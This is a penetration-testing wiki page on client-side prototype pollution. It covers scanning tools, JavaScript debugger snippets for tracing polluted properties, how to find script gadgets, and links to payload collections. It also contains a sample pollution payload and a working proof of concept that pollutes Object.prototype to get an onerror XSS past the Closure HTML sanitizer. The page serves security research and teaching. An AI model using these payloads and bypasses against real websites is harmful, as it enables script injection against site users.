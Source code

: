 # Client Side Prototype Pollution

{{#include ../../../banners/hacktricks-training.md}}

## Discovering using Automatic tools

The tools [**https://github.com/dwisiswant0/ppfuzz**](https://github.com/dwisiswant0/ppfuzz?tag=v1.0.0)**,** [**https://github.com/kleiton0x00/ppmap**](https://github.com/kleiton0x00/ppmap) **and** [**https://github.com/kosmosec/proto-find**](https://github.com/kosmosec/proto-find) can be used to **find prototype pollution vulnerabilities**.

Moreover, you could also use the **browser extension** [**PPScan**](https://github.com/msrkp/PPScan) to **automatically** **scan** the **pages** you **access** for prototype pollution vulnerabilities.

### Debugging where a property is used <a href="#id-5530" id="id-5530"></a>

```javascript
// Stop debugger where 'potentialGadget' property is accessed
Object.defineProperty(Object.prototype, "potentialGadget", {
  __proto__: null,
  get() {
    console.trace()
    return "test"
  },
})
```

### Finding the root cause of Prototype Pollution <a href="#id-5530" id="id-5530"></a>

Once a prototype pollution vulnerability has been identified by any of the tools, and if the code is not overly complex, you might find the vulnerability by searching for keywords such as `location.hash`, `decodeURIComponent`, or `location.search` in the Chrome Developer Tools. This approach allows you to pinpoint the vulnerable section of the JavaScript code.

For larger and more complex codebases, a straightforward method to discover the vulnerable code involves the following steps:

1. Use a tool to identify a vulnerability and obtain a payload designed to set a property in the constructor. An example provided by ppmap might look like: `constructor[prototype][ppmap]=reserved`.
2. Set a breakpoint at the first line of JavaScript code that will execute on the page. Refresh the page with the payload, pausing the execution at this breakpoint.
3. While the JavaScript execution is paused, execute the following script in the JS console. This script will signal when the 'ppmap' property is created, aiding in locating its origin:

```javascript
function debugAccess(obj, prop, debugGet = true) {
  var origValue = obj[prop]

  Object.defineProperty(obj, prop, {
    get: function () {
      if (debugGet) debugger
      return origValue
    },
    set: function (val) {
      debugger
      origValue = val
    },
  })
}

debugAccess(Object.prototype, "ppmap")
```

4. Navigate back to the **Sources** tab and select “Resume script execution”. The JavaScript will continue executing, and the 'ppmap' property will be polluted as expected. Utilizing the provided snippet facilitates the identification of the exact location where the 'ppmap' property is polluted. By examining the **Call Stack**, different stacks where the pollution occurred can be observed.

When deciding which stack to investigate, it is often useful to target stacks associated with JavaScript library files, as prototype pollution frequently occurs within these libraries. Identify the relevant stack by examining its attachment to library files (visible on the right side, similar to an image provided for guidance). In scenarios with multiple stacks, such as those on lines 4 and 6, the logical choice is the stack on line 4, as it represents the initial occurrence of pollution and thereby the root cause of the vulnerability. Clicking on the stack will direct you to the vulnerable code.

![https://miro.medium.com/max/1400/1*S8NBOl1a7f1zhJxlh-6g4w.jpeg](https://miro.medium.com/max/1400/1*S8NBOl1a7f1zhJxlh-6g4w.jpeg)

## Finding Script Gadgets

The gadget is the **code that will be abused once a PP vulnerability is discovered**.

If the application is simple, we can **search** for **keywords** like **`srcdoc/innerHTML/iframe/createElement`** and review the source code and check if it l**eads to javascript execution**. Sometimes, mentioned techniques might not find gadgets at all. In that case, pure source code review reveals some nice gadgets like the below example.

### Example Finding PP gadget in Mithil library code

Check this writeup: [https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/](https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/)

## Recompilation of payloads for vulnerable libraries

- [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution)
- [https://github.com/BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution)

## HTML Sanitizers bypass via PP

[**This research**](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) shows PP gadgets to use to **bypass the sanizations** provided by some HTML sanitizers libraries:

- **sanitize-html**

<figure><img src="../../../images/image (1140).png" alt="https://research.securitum.com/wp-content/uploads/sites/2/2020/08/image-7.png"><figcaption></figcaption></figure>

- **dompurify**

<figure><img src="../../../images/image (1141).png" alt="https://research.securitum.com/wp-content/uploads/sites/2/2020/08/image-9.png"><figcaption></figcaption></figure>

- **Closure**

```html
<!-- from https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/ -->
<script>
  Object.prototype['* ONERROR'] = 1;
  Object.prototype['* SRC'] = 1;
</script>
<script src=https://google.github.io/closure-library/source/closure/goog/base.js></script>
<script>
  goog.require('goog.html.sanitizer.HtmlSanitizer');
  goog.require('goog.dom');
</script>
<body>
<script>
  const html = '<img src onerror=alert(1)>';
  const sanitizer = new goog.html.sanitizer.HtmlSanitizer();
  const sanitized = sanitizer.sanitize(html);
  const node = goog.dom.safeHtmlToNode(sanitized);

  document.body.append(node);
</script>
```

## References

- [https://infosecwriteups.com/hunting-for-prototype-pollution-and-its-vulnerable-code-on-js-libraries-5bab2d6dc746](https://infosecwriteups.com/hunting-for-prototype-pollution-and-its-vulnerable-code-on-js-libraries-5bab2d6dc746)
- [https://blog.s1r1us.ninja/research/PP](https://blog.s1r1us.ninja/research/PP)
- [https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/#:\~:text=my%20challenge.-,Closure,-Closure%20Sanitizer%20has](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)

{{#include ../../../banners/hacktricks-training.md}}
